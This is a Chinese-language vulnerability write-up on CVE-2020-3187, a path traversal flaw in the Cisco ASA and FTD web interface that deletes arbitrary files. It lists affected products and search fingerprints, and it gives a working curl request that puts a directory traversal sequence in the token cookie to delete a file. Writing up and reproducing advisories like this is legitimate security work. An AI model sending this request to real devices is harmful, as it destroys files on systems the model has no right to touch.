


# Cisco ASA设备任意文件删除漏洞 CVE-2020-3187

## 漏洞描述

Cisco ASA Software和FTD Software中的Web服务接口存在路径遍历漏洞，该漏洞源于程序没有对HTTP URL进行正确的输入验证。远程攻击者可通过发送带有目录遍历序列的特制HTTP请求利用该漏洞读取并删除系统上的敏感信息。

## 漏洞影响

<a-checkbox checked>Cisco ASA设备</a-checkbox></br>





<a-checkbox checked>Cisco FTD设备</a-checkbox></br>


## 网络测绘

<a-checkbox checked>/+CSCOE+/</a-checkbox></br>

<a-checkbox checked>Cisco-ASA</a-checkbox></br>

## 漏洞复现

<a-alert type="success" message="访问 http://xxx.xxx.xxx.xxx/+CSCOE+/session_password.html 存在则可能出现此漏洞" description="" showIcon>
</a-alert>
<br/>


例如我们删除一张图片  http://xxx.xxx.xxx.xxx/+CSCOU+/csco_logo.gif





使用 curl 发送请求


```shell
curl -H "Cookie: token=../+CSCOU+/csco_logo.gif" https://xxx.xxx.xxx.xxx/+CSCOE+/session_password.html
```


成功删除图标